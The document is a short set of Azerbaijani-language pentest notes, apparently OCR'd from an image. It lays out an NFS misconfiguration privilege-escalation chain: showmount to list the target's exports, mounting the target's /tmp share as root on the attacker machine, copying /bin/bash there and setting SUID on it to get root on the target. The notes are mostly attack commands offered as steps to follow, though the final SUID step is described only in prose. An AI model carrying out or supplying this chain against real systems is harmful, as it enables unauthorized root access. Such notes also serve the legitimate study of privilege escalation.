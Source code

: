 ## ILK OLARAQ BIZ HEDEFIN NFS KIMI ICAZELERINE BAXIRIQ 
    showmount -e {ip adress}
## EGER ICAZELERI VARSA (MESELEN TMP QOVLUQU) ONDA
## oz mashinimizda root ile share qovluqu yaradiriq
     sudo mount  -t nfs ("ip adress"):/tmp /tmp/share
## ve hedefin tmp qovluqlarinda olan hershey bizde gorsenecek ve ilk olaraq /bin/bash qovluqunu 
     cp /bin/bash .
##  kopyalayib getiririk ve atack masinimizda buna suid icazesi verib kecirk roota     
